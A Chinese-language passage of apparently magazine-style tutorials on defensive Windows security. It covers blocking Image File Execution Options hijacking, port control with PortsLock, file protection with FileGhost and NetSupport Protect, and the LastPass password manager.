

图1

图2

单纯的删除操作显得比较繁琐，如何才能彻底禁用映像劫持功能呢？在注册表的“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options”分支的右键菜单中点击“权限”，在弹出的窗口（如图3）中的“完全控制”项设置为“拒绝”即可，这样病毒就无法使用映像劫持功能了。

# 为网络端口巧设“加密锁”

我们知道，网络端口是电脑和外界通讯的“交通要道”。不管是正常的网络软件，还是病毒、木马、流氓软件等恶意程序，它们能够和外界主机传输数据，都是通过特定端口进行的。在 Cmd 窗口中执行“netstat -an”命令，可以查看当前打开的端口信息。但是该方法只能查看端口，却无法对可疑端口进行有效封锁。实际上，不管病毒等恶意程序如何厉害，只要封锁了其和外界通讯的网络端口，其破坏力就会大打折扣。接下来就可以使用其它专业安全工具对病毒进行清剿了。

如何才能彻底封锁端口呢？有了 PortsLock 这款小巧的网络安全软件，网络端口的开合状态就完全处于您的掌控之中了。PortsLock 功能强大，通过灵活配置端口规则，不仅可以掌控本机的端口使用状态，而且还可以远程管理其它网络主机的端口。

PortsLock Service 安装之后，会在系统中创建一个名称为“PortsLock Service”的服务，其启动方式为自动。在 PortsLock 主窗口中点击菜单“File”→“Quick Start Wizard”项，在向导窗口（如图1）中点击“下一步”按钮，在“Click Next to continue”栏中选择第一项，表示只允许本机管理员用户自由使用任何端口通讯，其余用户将被禁用任何端口。选择第二项表示允许管理员用户使用任何端口通讯，其他用户只能发送数据而无法接收数据。



图1

当然，这是 PortsLock 自带的端口管理规则，您可以根据需要进行选择。这里假设选择第一项规则，之后在 PortsLock 主窗口（如图2）右侧的“Permissions”面板中显示该规则的详细信息。从中可以看出，PortsLock 是按照用户或者用户组来配置端口安全规则的。在不同的用户配置栏中包括“Incoming”和“Outgoing”项，分别表示接收规则和发送规则。在默认情况下，所有管理员用户都可以不受任何限制地操作端口。



图2

当然，您可以根据需要对其进行自由修改配置。例如可以选中对应的账户或者组名称，在其右键菜单中点击“Delete”项将其删除。当然如果本机中的账户比较多，PortsLock 不能将其全部列出。您可以手工添加需要限制端口操作权限的账户：在“Permission”面板的右键菜单中点击“Add User”项，在“选择用户或组”窗口（如图3）中点击“高级”按钮，之后点击“立即查找”按钮，Windows 即可列出所有的用户和组名；选择所需用户，就可以将其添加到端口规则面板中。按照上述方法，您可以将所需用户全部添加进来，这样就能够分别为其配置端口使用规则了。



图3

在“Permissions”面板中选择对应的账户名；在其下的“Incoming”项的右键菜单中点击“Add”项，表示为该用户添加端口接收规则。在规则配置窗口（如图4）中：

- 在“Protocol”列表中选择协议类型，包括 IP、TCP、UDP、ICMP、Other 等。例如选择“TCP”项，表示对 TCP 端口进行控制。  
- 在“Local Endpoint”栏的“Type”列表中选择本机地址类型，依次包括“Any Address”（任何地址）、“Host”（单个地址）、“Network/Mask”（网络掩码）、“Network/Range”（网络地址范围）等。例如选择“Any Address”项，表示控制本机的所有端口。  
- 在“Port”栏中选择本机端口类型，依次包括任何端口、端口号等于、端口号大于、端口号小于、端口号不等于、在指定端口范围之内、在指定端口范围之外等。例如选择“Between (in)”项，在其后可以设置端口范围，这样就可以对指定端口范围进行控制。  
- 在“Remote Endpoint”栏中可以设置远程电脑的端口类型，其配置方法与“Local Endpoint”完全相同。  

当确定本机和远程主机的端口协议和类型后，在窗口底部坐标栏可以设置对应端口关系的可用状态：横坐标表示时间（从0点到24点），纵坐标表示星期数。点击“No Access”按钮，表示在任何时间内都禁止选定端口之间的通讯；点击“Full Access”按钮，表示在任何时间内都允许选定端口之间的通讯。您可以先点击“No Access”按钮，之后在坐标栏中点击或者拖动鼠标，来设置端口通讯可用的时间范围。这样，可以对端口通讯进行灵活控制。之后点击 OK 按钮保存该规则即可。按照上述方法，您可以对任意用户配置所需的端口接收规则。

配置端口发送规则的方法很简单：在选定用户的“Outgoing”项右键菜单中点击“Add”项，即可配置端口发送规则，其方法与上述完全相同。当然，对于同一个用户而言，您可以为其添加任意多个端口接收或者发送规则。



图4

PortsLock 不仅可以控制本机的网络端口，实际上它还可以远程控制网络中任意电脑的端口规则。在网络中的其他电脑中安装好 PortsLock，之后在其中任意一台电脑中运行 PortsLock，在其窗口左侧列表中打开“Microsoft Windows Network”项，在其中可以显示网络中的所有可用主机（如图5）。如果对应主机显示红色叉号，表示该机上没有安装 PortsLock。双击对应主机名称（或者点击 F3 键），PortsLock 即可和该机建立网络连接，当然您需要对该机有足够的控制权限。否则，PortsLock 会弹出网络连接窗口，在其中输入对应的账户名和密码，即可和该机建立连接，之后就可以对该机端口进行规则配置，具体操作方法与上述完全相同。这样，网络管理员就可以非常方便地远程管理网络主机的端口使用状态了。

PortsLock 实际上和 Windows 实现了紧密集成。在“开始→运行”中执行“eventvwr.msc”，在事件查看器左侧点击“PortsLock Log”项，在右侧窗口中可以浏览 PortsLock 的端口监视信息，包括端口连接类型、时间、本机地址和端口号、远程地址和端口号、协议类型、动作类型等。当然，在 PortsLock 主窗口右侧的“Monitoring”面板中也提供了详细的端口连接信息，包括端口连接时间、相关进程名和使用的端口号、数据包类型、本机地址、远程地址、连接状态、对应账户名、设备名称等，这样您可以及时了解本机端口的使用情况。



图5

## 严防数据窃贼，为文件钉穿“防护衣”

郭建伟

当黑客通过各种方法非法控制了您的爱机后，其最感兴趣的莫过于您的各种重要文件了。例如黑客可以通过远程文件传输技术，轻而易举地将您的敏感文件窃走。电脑有价而数据无价，一旦这些重要数据落入黑客之手，将会给您带来不可估量的损失。例如如果您将银行卡号和密码存储到某个文件中，黑客一旦得到，就可以毫不费力地窃取您的资金等等。因此，加强对重要文件的保护，就显得非常重要了。解决上述问题的最好办法是对文件操作进行合理控制，例如将重要文件设置为锁定状态，这样即使黑客找到该文件，也对其无可奈何。使用 FileGhost 和 NetSupport Protect 这两款独特的软件，就可以为文件穿上坚固的“防护衣”。

FileGhost 可以对任意文件、文件夹、磁盘进行全面保护，您可以对其执行锁定、隐藏、禁止删除/复制/改名/替换/修改属性等操作。FileGhost 安装之后需要重新启动系统，在 FileGhost 主窗口（如图1）右侧点击“添加文件夹”或者“添加文件”按钮，选择需要保护的文件夹、文件或者磁盘等对象。按照上述方法，您可以添加所需的任意文件对象。

在初始状态下，FileGhost 对导入对象没有任何保护功能。在“Protected items”列表中选中对应文件，在窗口底部勾选“Lock (Deny access)”项，表示锁定该文件，一旦文件处于锁定状态，几乎不允许对其执行任何操作。还可勾选以下保护功能：

- Deny file reading（禁止文件读取）
- Deny replacing（禁止文件替换）
- Hide（隐藏文件）
- Deny file writing（禁止文件修改）
- Deny time change（禁止修改文件时间）
- Deny delete（禁止删除文件）
- Deny renaming（禁止文件更名）
- Deny attributes change（禁止修改文件属性）



图1

按照同样方法，在“Protected items”中选择所需对象，分别设置所需保护项目即可。在窗口右侧点击配置按钮，在配置窗口（如图2）中勾选“Protect access to FileGhost with password”项，表示激活 FileGhost 的密码保护功能，在其下设置保护密码，这样当启动或者修改 FileGhost 各项属性时必须输入该密码。勾选“Use hotkey to quick hide/show main window”项，通过设置热键（默认为“Ctrl+Shift+P”），可以快速隐藏或者激活 FileGhost 管理窗口。勾选“Automatically hide main window after screensaver is activated”项，表示 FileGhost 窗口失去控制焦点后可以自动执行隐藏操作。勾选“Automatically hide main window after period of user inactivity period X minutes”项，表示超过预设时间（默认为2分钟）没有在 FileGhost 窗口中执行任何操作时，即可自动执行隐藏操作。勾选“Do not show tray icon when program is hidden”项，可以在系统托盘中隐藏 FileGhost 图标。

NetSupport Protect 执行文件保护功能时，会在系统中生成名称为“NetSupport Protect”的服务，从而可以跟随系统自动运行，始终将系统置于其保护之下。NetSupport Protect 采用特殊运行机制，可以防止恶意程序对其进行非法关闭操作。在 NetSupport Protect 主窗口工具栏中点击“Settings”按钮，在配置窗口（如图3）右侧的“Administrator Password”栏中点击“Set”按钮，可以设置超级用户管理员密码；在“Manager Password”栏中点击“Set”按钮，可以设置管理员密码。前者可以对 NetSupport Protect 进行任意控制，后者只能执行系统锁定和解锁操作。

在 NetSupport Protect 工具栏上点击“Folder”按钮，在窗口（如图4）左侧点击对应项目链接，当其图标由红色变为绿色后，表示激活了该项保护功能，否则表示取消该项保护功能。例如点击“Remove Context Menu”链接，表示移除资源管理器上下文菜单；再次点击使图标变更，表示恢复上下文菜单。点击“Disable Delete”链接，设置是否禁止文件删除操作；点击“Disable Rename”链接，设置是否禁止文件改名操作；点击“Disable Copy/Move”链接，设置是否禁止文件复制和移动操作；点击“Disable Send to Menu”链接，设置是否禁用右键菜单中的“发送到”菜单；点击“Disable Find Files”项，设置是否禁用文件搜索功能。

在窗口右侧的“Hide Folders”栏中点击“Add”按钮，在弹出窗口中点击“Browse”按钮，选择需要隐藏的文件夹，点击 OK 按钮将其添加到隐藏列表中。在“Restricted File Creation”栏中点击“Add”按钮，在弹出窗口中输入文件类型，那么将禁止操作该种类型的文件。例如输入“.txt”，那么当其它用户试图操作本机中的文本文件时，NetSupport Protect 即可对其执行拦截操作。在工具栏中点击“Application”按钮，在“Blocked Application”列表中点击“Add”按钮，可以添加禁止运行的程序，这样当该列表中的程序试图运行时，NetSupport Protect 即可对其进行拦截。在工具栏中点击“Network”按钮，在窗口右侧的“Select which Drive are unavailable”列表中勾选对应磁盘，NetSupport Protect 即可将其设置为禁用状态。



图2



图3

和 FileGhost 相比，NetSupport Protect 是一款功能强大的系统安全管理软件，可以允许您灵活配置各项系统安全属性，让系统运行得更加安全高效。NetSupport Protect 不仅支持文件系统保护功能，而且支持文件类型操作安全控制、桌面安全管理、设置禁用程序列表、硬件连接安全控制、磁盘还原等实用功能。这里主要分析如何使用 NetSupport Protect。



图4

# LastPass：信息安全的最后一道锁

Evan

最近CSDN被拖库，小生有幸不在其中。但是人不可能总是那么幸运的，像小生的密码就只有两个，都可以算是通用了。虽然说这两个密码暴力破解是有困难的，但是挡不住某些网站被拖库。最好的办法就是不同的网站用不同的复杂密码，不过这么多复杂的密码怎么记忆便成了一个问题。国内曾有些软件可以记忆自己的密码，但是便携性和安全性还是有待提升的。

这里给大家推荐一款软件——LastPass。英译过来，便是“最后一个密码”。我们使用这款软件之后，便无需记忆繁多的密码。只需一键，便可完成登录各个网站。我们在注册账户的时候为了方便记忆，很普遍地都使用同样的密码，虽然这样做是非常不安全的，但是谁真的有这么好的记忆力来记住如此之多的密码。LastPass这款软件便可以解决我们的顾虑，即方便我们，也能保证账户的安全。

由于LastPass在一定程度上属于安全软件，需要修改下系统配置，所以我们使用前需要先安装。打开安装程序，点击下一步，选择您常用的浏览器（如图1），并为它们安装上LastPass插件。一般不用更改，直接下一步就好。LastPass便会进入收集信息状态，之后便提示我们登录或者新建账户。这里就不说注册了，叉子们都会的。（LastPass账户的密码一定要足够复杂，避免其他网站的账户泄露。在文章后面会提如何让自己的密码更强悍。）

登录成功之后，出现导入数据窗口，让我们导入之前保存在浏览器的账号及密码。选择下一步，稍等片刻，出现了我们保存在浏览器中的账号及密码（如图2）。选择我们需要的账户并点击下一步，在导入成功之后程序提示我们删除保存在浏览器的账号及密码。这一步还是很重要的，一般选择删除。接下来便是LastPass的简单设置了（如图3），我这里建议大家在“当我关闭浏览器：”中选择注销账户，这样会安全很多。如果只是你私人电脑的话，也可以选择不注销。

